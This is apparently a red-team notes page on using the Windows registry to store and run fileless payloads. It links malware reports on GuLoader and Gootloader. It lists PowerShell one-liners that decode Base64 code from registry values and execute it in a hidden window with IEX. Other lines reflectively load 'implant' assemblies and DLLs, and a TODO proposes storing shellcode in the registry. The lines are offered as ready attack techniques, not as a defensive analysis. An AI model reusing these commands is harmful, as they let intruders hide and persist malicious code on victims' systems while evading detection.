 # Registry

TODO: Other ideas is to use registries to include shellcode and execute it.

https://blog.sonicwall.com/en-us/2022/06/guloader-a-fileless-shellcode-based-malware-in-action/

```
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -c "sleep 0; IEX([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String((Get-Item 'HKLM:SOFTWARE\<registry_key>').GetValue('<registry_value_name>'))))"
```

```powershell
powershell -Command " [Reflection.Assembly]::Load([System.Convert]::FromBase64String((Get-ItemProperty 'HKCU:\Software\Classes\<registry_key>').b64encAssembly)); [CMD_exec.Class1]::RunCMD()"

powershell IEX ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((get-itemproperty 'HKCU:\Software\Classes\<registry_key>').b64encPS)))

powershell -Command " [Reflection.Assembly]::Load(([System.IO.File]::ReadAllBytes('C:\path\to\implant.dll')); [CMD_exec.Class1]::RunCMD();"

powershell -Command " [Reflection.Assembly]::LoadFile('C:\path\to\implant.dll'); [CMD_exec.Class1]::RunCMD();"

powershell IEX (Get-Content C:\path\to\implant.ps1 -Raw)
```

https://az4n6.blogspot.com/2018/06/malicious-powershell-in-registry.html

adding registry persistence by spliting the shellcode hexadecimal

https://thedfirreport.com/2024/02/26/seo-poisoning-to-domain-control-the-gootloader-saga-continues/